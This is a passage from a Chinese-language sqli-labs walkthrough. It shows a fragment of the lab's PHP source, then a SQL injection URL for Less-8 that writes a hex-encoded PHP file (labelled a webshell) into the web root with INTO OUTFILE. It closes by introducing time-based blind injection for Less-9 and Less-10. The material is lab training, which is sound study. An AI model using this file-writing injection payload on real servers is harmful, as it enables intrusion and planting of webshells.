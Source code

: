 ```
	
	echo '<font size="5" color="#FFFF00">';
	//echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

```



**写入webshell木马：**`http://127.0.0.1/sqli-labs-master/Less-8/?id=1')) union select null,0x3c3f70687020706870696e666f28293b3f3e3b,null into outfile 'D:\\phpStudy\\WWW\\sqli-labs-master\\Less-7\\test.php' --+`



## Less-9和Less-10

查看当前页面的php源码，可以发现无论sql注入是否成功，其返回的信息都是一样的，面对此类情况只能采用时间盲注

> 时间盲注：通过判断网页的响应时间来获取数据库相关信息, 通常盲注的时间效率都很低

![](sqli-labs/1779065-20210221104444280-877374355.png)

